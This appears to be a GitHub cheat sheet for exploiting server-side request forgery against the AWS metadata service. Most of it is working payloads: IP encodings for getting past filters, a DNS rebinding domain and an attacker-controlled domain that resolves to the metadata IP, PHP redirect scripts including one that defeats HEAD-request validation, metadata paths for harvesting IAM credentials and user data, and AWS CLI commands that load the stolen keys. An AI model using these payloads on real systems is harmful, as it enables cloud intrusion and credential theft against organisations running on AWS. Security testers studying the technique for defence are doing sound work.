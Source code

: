 # SSRF AWS Cheat Sheet

## 🚀 Identifying SSRF
- Check for user-controlled URL parameters (`url=`, `redirect=`, `file=`).
- Observe response differences when passing internal vs. external URLs.
- Look for reflected or stored SSRF scenarios.

---

## 🔍 Exploiting AWS Metadata Service
### **Standard AWS Metadata URL:**  
```
http://169.254.169.254/latest/meta-data/
```

### **Alternative Encodings (Bypassing Filters):**  
```
http://169.254.169.254  
http://0251.0376.0251.0376  
http://0xa9.0xfe.0xa9.0xfe  
http://0xa9fea9fe  
http://2852039166  
http://4777115998  
http://169.254.43452  
http://0xA9FEA9FE  
http://0xa9fe.a9fe  
http://0251.0376.0251.0376  
http://0251.0376.43230  
http://2852039166  
http://4777115998  
http://0xa9fea9fe  
http://0xa9.0xfe.0xa9.0xfe  
http://169.254.0xA9FE  
http://169.254.43452  
http://0xa9fe.a9fe  
http://0251.0376.0251.0376  
http://0251.0376.43230  
http://2852039166  
```

---

## 🧐 DNS Rebinding Attack
If direct access is blocked, try DNS rebinding:
- Use a DNS rebinding service: [Rebinder](https://lock.cmpxchg8b.com/rebinder.html)
- Example domain:
  ```
  01010101.a9fea9fe.rbndr.us
  ```

---

## 🛠 SSRF via Public Domain
A public domain that resolves to AWS metadata IP can be used for SSRF attacks. By pointing a domain to `169.254.169.254`, requests to this domain will effectively be redirected to AWS metadata service.
```
aws.yeganof.com.  300  IN  A  169.254.169.254
```
Attackers can use `aws.yeganof.com` in SSRF payloads to interact with AWS metadata.

---

## 🌐 Self-Hosting for Testing SSRF (Cloudflare Tunnel)
Create a local PHP server and expose it via Cloudflare Tunnel:
```sh
php -S 0.0.0.0:8081  
cloudflared tunnel --url http://localhost:8081  
```

Use the following PHP script to redirect requests:
```php
<?php
header("Location: http://169.254.169.254");
exit();
?>
```

---

## 🛡️ Bypassing HEAD Request Validations
```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'HEAD') {
    header("HTTP/1.1 200 OK");
    header("X-SSRF-Test: Head-Response");
    exit();
}
if ($_SERVER['REQUEST_METHOD'] === 'GET') {
    header("HTTP/1.1 200 OK");
    header("Content-Type: text/html");
    header("location: http://169.254.169.254");
    exit();
}
header("HTTP/1.1 405 Method Not Allowed");
exit();
?>
```

---

## ⚡ Extracting AWS Credentials
After accessing `http://169.254.169.254/latest/meta-data/`, check:
- **IAM Role Credentials:**  
  ```
  http://169.254.169.254/latest/meta-data/iam/security-credentials/
  ```
- **Instance ID:**  
  ```
  http://169.254.169.254/latest/meta-data/instance-id
  ```
- **User Data:**  
  ```
  http://169.254.169.254/latest/user-data
  ```

### **Using Extracted Credentials in AWS CLI:**
```sh
aws configure set aws_access_key_id <ACCESS_KEY> --profile temp-creds  
aws configure set aws_secret_access_key <SECRET_KEY> --profile temp-creds  
aws configure set aws_session_token "<SESSION_TOKEN>" --profile temp-creds  
```

---

🌟 **Happy Hacking!** 🏴‍☠️

